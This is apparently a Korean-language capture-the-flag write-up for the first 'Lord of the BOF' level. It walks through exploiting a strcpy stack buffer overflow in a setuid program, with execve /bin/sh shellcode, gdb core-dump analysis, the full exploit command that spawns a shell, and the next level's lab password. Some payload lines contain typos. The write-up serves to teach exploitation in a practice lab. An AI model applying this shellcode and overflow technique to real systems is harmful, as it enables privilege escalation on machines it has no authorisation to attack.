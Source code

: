 1번 gate -> gremlin
===================

```  
id = 'gate'
pw = 'gate'
```

--------------------------------------------------------------
"ls" 명령어로 파일들 확인
```   
[gate@localhost gate]$ ls  
agremlin  gremlin.c  
```  

"cat gremlin.c"로 c파일 확인  
```  
[gate@localhost gate]$ cat gremlin.c
/*
	The Lord of the BOF : The Fellowship of the BOF
	- gremlin
	- simple BOF
*/

int main(int argc, char *argv[])
{
    char buffer[256];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}
[gate@localhost gate]$  
```  

인자는 무조건 2개이상 주어야 되고  
2번째 인자값을 buffer에 복사 buffer값을 출력하는 구도  

### strcpy함수의 취약점   
>(srtingcopy)strcpy함수는 strcpy(인자1, 인자2); 일때<br>
>인자1에 인자 2의 값을 복사해주는데 이떄 인자1의 크기에 상관없이<br>
>인자 2의 모든 값을 복사해서 인자1의 영역너머를 우리가 변조할 수 있게됨<br>  

### 인자 전달방법
>파일을 실행할때는 "./파일명"으로 실행  <br>
>여기에 인자를 포함해서 전달하려면 뒤에 인자로 넣을 것 을 추가<br>   
>파이썬으로 전달하려면? ex) ./gremlin `python -c 'print "A"*100'`
  

## 공략시작
우리가 쓸 쉘코드
```  
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"  
```
크기 = 25bytes

스택 프레임 구조   
>buffer(256) | SFP(4) | ret addr(4)  

260byte모두 덮고 속에다가 (nop)\x90이랑 쉘코드 25바이트를 넣고 ret add를 찾아서 마지막 4byte를 후루룩

### gremlin파일 접근
우선 gremlin파일은 
```
[gate@localhost gate]$ ls -l
total 16
-rwsr-sr-x    1 gremlin  gremlin     11987 Feb 26  2010 gremlin
-rw-rw-r--    1 gate     gate          272 Apr  7 21:42 gremlin.c
[gate@localhost gate]$ 
```
보이는 것과 같이 우리 다음레벨인 gremlin의 권한을 가지고있으므로 gdb를 쓸 수 없다.
  
    
디렉토리를 하나 만들고 그 속에다가 gremlin파일을 우리가 건드릴 수 있도록 복사를 해주자.
```
[gate@localhost gate]$ mkdir tmp
[gate@localhost gate]$ cp gremlin tmp
[gate@localhost gate]$ cd tmp 
[gate@localhost tmp]$ ls
gremlin
gate@localhost tmp]$
```
>tmp 디렉토리 생성후 cp명령어로 tmp디렉토리에 gremlin파일 복사 
  
 
  
### 페이로드
tmp파일 내에서 
./gremlin `python -c 'print "A"*260 + "\x90\x90\x90\x90"'`
을 넣어보자

```
[gate@localhost tmp]$ ./gremlin `python -c 'print "A"*260  + "\x90\x90\x980\x90"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 
Segmentation fault (core dumped)
[gate@localhost tmp]$ ls
core  gremlin                    
```
>core 파일이 생성되었다.


### 코어 파일 
먼저 해결책부터말하면
>core dumped가 되었을땐 core파일이 생길 것 이다.  
>그럼 그 코어 파일을 gdb로 연다음  
>x/100x $esp으로 \x90의 위치를 찾고
>그 주소로 페이로드를 다시짜서 원본파일에 공격을 하면 성공이다.

```
[gate@localhost tmp]$ gdb -c core -q
Core was generated by `./gremlin AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'.
Program terminated with signal 11, Segmentation fault.
#0  0x90909090 in ?? ()
(gdb) 
```
> '-c'옵션을 꼭 주어서 gdb를 실행하자


```
(gdb)x/100x $esp
0xbffff9f0:	0xfb609090	0xbf00bfff	0xbffffa40	0x40013868
0xbffffa00:	0x00000002	0x08048380	0x00000000	0x080483a1
0xbffffa10:	0x08048430	0x00000002	0xbffffa34	0x080482e0
0xbffffa20:	0x080484bc	0x4000ae60	0xbffffa2c	0x40013e90
0xbffffa30:	0x00000002	0xbffffb3e	0xbffffb48	0x00000000
0xbffffa40:	0xbffffc57	0xbffffc6a	0xbffffc81	0xbffffca0
0xbffffa50:	0xbffffcc2	0xbffffccc	0xbffffe8f	0xbffffeae
0xbffffa60:	0xbffffec8	0xbffffedd	0xbffffef9	0xbfffff04
0xbffffa70:	0xbfffff1c	0xbfffff29	0xbfffff31	0xbfffff42
0xbffffa80:	0xbfffff4c	0xbfffff5a	0xbfffff6b	0xbfffff79
0xbffffa90:	0xbfffff84	0xbfffff94	0xbfffffd4	0xbfffffe0
0xbffffaa0:	0x00000000	0x00000003	0x08048034	0x00000004
0xbffffab0:	0x00000020	0x00000005	0x00000006	0x00000006
0xbffffac0:	0x00001000	0x00000007	0x40000000	0x00000008
0xbffffad0:	0x00000000	0x00000009	0x08048380	0x0000000b
0xbffffae0:	0x000001f4	0x0000000c	0x000001f4	0x0000000d
0xbffffaf0:	0x000001f4	0x0000000e	0x000001f4	0x00000010
0xbffffb00:	0x0f8bfbff	0x0000000f	0xbffffb39	0x00000000
0xbffffb10:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffffb20:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffffb30:	0x00000000	0x00000000	0x38366900	0x2f2e0036
0xbffffb40:	0x6d657267	0x006e696c	0x41414141	0x41414141
0xbffffb50:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffb60:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffb70:	0x41414141	0x41414141	0x41414141	0x41414141
[gate@localhost tmp]$
```
메모리 뜯어본 결과
>argv[1]에 넣었던 AAA~ 는 bffffb 40~50에서 시작되므로
>널널히 bffffb50으로 ret addr을 맞쳐주자
>(그 뒤로 실행되다가 쉘코드를 만나면 쉘코드가 실행될 것 이다.)

```
[gate@localhost tmp]$ ./gremlin `python -c 'print "A"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"  + ""x90" * 135 + "\x50\xfb\xff\xbf"'             `
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA1󿿐h//shh/bin⏓ኂ°
                                                                                                                   ̀P
bash$
```
쉘코드 넣고 주소만 \x50\xfb\xff\xbf로 바꿔서 실행하니 bash가 잘 실행됬다.  
이제 원본파일에다가 공격을 하고 다음 level의 비밀번호를 알아내자.
```
[gate@localhost tmp]$ cd
[gate@localhost gate]$ ./gremlin `python -c 'print "A"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"  + "\x90" * 135 + "\x50\xfb\xff\xbf"'             `
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA1󿿐h//shh/bin⏓ኂ°
                                                                                                                   ̀P
bash$ my-pass
euid = 501
hello bof world
```

----
###gremlin
```
id = 'gremlin'
pw = 'hello bof world'
```

 
